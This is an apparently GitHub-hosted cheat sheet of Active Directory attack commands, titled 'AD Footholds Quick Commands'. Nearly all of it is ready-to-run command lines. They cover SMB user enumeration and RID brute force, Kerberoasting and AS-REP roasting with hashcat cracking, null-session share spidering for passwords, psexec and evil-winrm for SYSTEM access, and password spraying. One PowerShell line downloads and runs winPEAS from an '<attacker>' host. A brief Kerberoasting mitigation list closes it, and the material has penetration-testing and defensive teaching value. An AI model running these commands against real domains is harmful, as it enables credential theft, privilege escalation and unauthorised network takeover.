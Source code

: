 # AD Footholds Quick Commands
---
## 1) Get user list via SMB
```bash
# If you have valid low-privilege credentials (recommended for better results): 
sudo enum4linux-ng -U -r <Target-IP> -u <Username> -p <Password>

# -d specifies the domain 
netexec smb <Target-IP> -u '<Username>' -p '<Password>' --users 

# To perform the faster RID bruteforce (try up to 4000 users by default): 
netexec smb <Target-IP> -u '<Username>' -p '<Password>' --rid-brute

```
---
## 2) Find Kerberoastable users from a user list
**Goal:** Enumerate accounts that have SPNs (service accounts) — good kerberoast targets.
```bash
./Rubeus.exe kerberoast /outfile:hash.txt

nxc kerberos spnscan --domain <DOMAIN> --user <user> --password '<password>' --dc-ip <DC_IP> --users-file users.txt

impacket-GetUserSPNs -request -dc-ip 192.168.1.53 ignite.local/aarti:Password@1
/GetUserSPNs.py '<DOMAIN>/' -request -dc-ip <DC_IP> -usersfile users.txt -outputfile kerberoast.hashes
```
---
## 3) Find AS-REP-roastable 
**Goal:** Identify accounts with `DONT_REQUIRE_PREAUTH` set (AS-REP roast targets).
[Hacking Articles+1](https://www.hackingarticles.in/active-directory-pentesting-using-netexec-tool-a-complete-guide/?utm_source=chatgpt.com)
```bash
nxc kerberos asreproast --domain <DOMAIN> --user <user> --password '<password>' --dc-ip <DC_IP> --users-file users.txt --output asrep.targets
# GetNPUsers enumerates accounts lacking pre-auth; outputs Hashcat-format lines 
python3 /path/to/impacket/examples/GetNPUsers.py <DOMAIN>/ -usersfile users.txt -dc-ip <DC_IP> -format hashcat > asrep.hashes`

hashcat -m 18200 asrep.hashes /path/to/wordlist.txt
```
---
## 4) Try SMB Null Authentication to spider through SMB shares looking for credentials

**Goal:** Use anonymous / null session to enumerate shares, users, password policy, and scan for writable shares to farm credentials.
```bash
# enumerate using an anonymous (null) session 
nxc smb <TARGET_IP> -u '' -p '' --shares  
nxc smb <TARGET_IP> -u '' -p '' --users 
nxc smb <TARGET_IP> -u '' -p '' --pass-pol`

smbmap -H <TARGET_IP> -u '' -p ''  
manspider -t smb://<TARGET_IP> -o ./loot --pattern 'password|secret|creds|.pem|.ppk|.pfx'`

```
---

## 5) Get `Local SYSTEM` Domain-connected Windows host

**Goal:** Execute a remote service (psexec)  that results in an **SYSTEM**-level process (useful to access machine account secrets or local SAM/LSA).

> Two widely used approaches: (A) remote service / psexec style (Impacket) — yields SYSTEM; (B) remote shell via `evil-winrm` then local privilege escalation (Linux/Windows local methods).

```bash
## A) Impacket `psexec.py` — remote execution as SYSTEM (if you have valid admin credentials or NTLM hash)
# With plaintext creds 
python3 /path/to/impacket/examples/psexec.py '<DOMAIN>/Administrator:Password'@<TARGET_IP>  
# With NTLM hash-only (LM:NTLM or :NTLM if no LM) 
python3 /path/to/impacket/examples/psexec.py '<DOMAIN>/Administrator@<TARGET_IP>' -hashes :<NTLM_HASH>

# get an interactive WinRM shell using a user account 
evil-winrm -i <TARGET_IP> -u <user> -p '<password>' 
# inside the shell: enumerate escalation vectors, then use a local exploit or service creation method 
# example: upload & run winPEAS to enumerate 
powershell -c "Invoke-WebRequest -Uri 'http://<attacker>/winPEAS.exe' -OutFile 'C:\\Windows\\Temp\\winPEAS.exe'; C:\\Windows\\Temp\\winPEAS.exe"
```
---

## 6) As a last resource: password spraying with the user list

**Goal:** Try a single (or a small number of) common passwords against many accounts to avoid lockouts.
```bash
### NetExec (nxc) — username list + single password or small password list
# or use multiple passwords (space-separated or file) nxc smb <TARGET_IP> -u file:users.txt -p 'Summer2025' 'Spring2025' 
# or using a file for passwords: nxc smb <TARGET_IP> -u file:users.txt -p file:passwords.txt`
nxc smb <TARGET_RANGE_OR_IP> -u file:users.txt -p 'Summer2025'  
nxc smb <TARGET_IP> -u file:users.txt -p file:passwords.txt`
```

 # Sources / references
- NetExec (nxc) docs & wiki (Kerberos, SMB, password spraying examples). [netexec.wiki+1](https://www.netexec.wiki/getting-started/using-kerberos?utm_source=chatgpt.com)
- Impacket examples (GetUserSPNs.py, GetNPUsers.py, psexec.py, secretsdump.py). [Hacking Articles+1](https://www.hackingarticles.in/kerberoasting-attack-in-active-directory/?utm_source=chatgpt.com)
- Responder common usage / Kerberos explainers. [nopsec.com+1](https://www.nopsec.com/blog/exploiting-kerberos-for-lateral-movement-and-privilege-escalation/?utm_source=chatgpt.com)
#### Mitigation

Protecting your Active Directory environment from Kerberoasting involves improving password hygiene, SPN configuration, and monitoring.

- **Use Strong, Complex Passwords:** Ensure service accounts (especially those with SPNs) use long, random, and unique passwords. Avoid reusing passwords or using dictionary words.
- **Rotate Passwords Regularly:** Implement scheduled password changes for service accounts — especially those tied to SPNs.
- **Use Managed Service Accounts (gMSA):** These accounts automatically handle complex password management and rotation, significantly reducing risk.
- **Avoid Using Highly Privileged Accounts for Services:** Don’t assign SPNs to Domain Admins or other privileged accounts. Use separate, least-privilege accounts for services.
- **Disable RC4 Encryption:** Enforce stronger encryption (AES128: 0x11, AES256: 0x12) via Group Policy:
- **Monitor Event ID 4769 Regularly:** Use SIEM tools or scripts to alert on unusual TGS requests.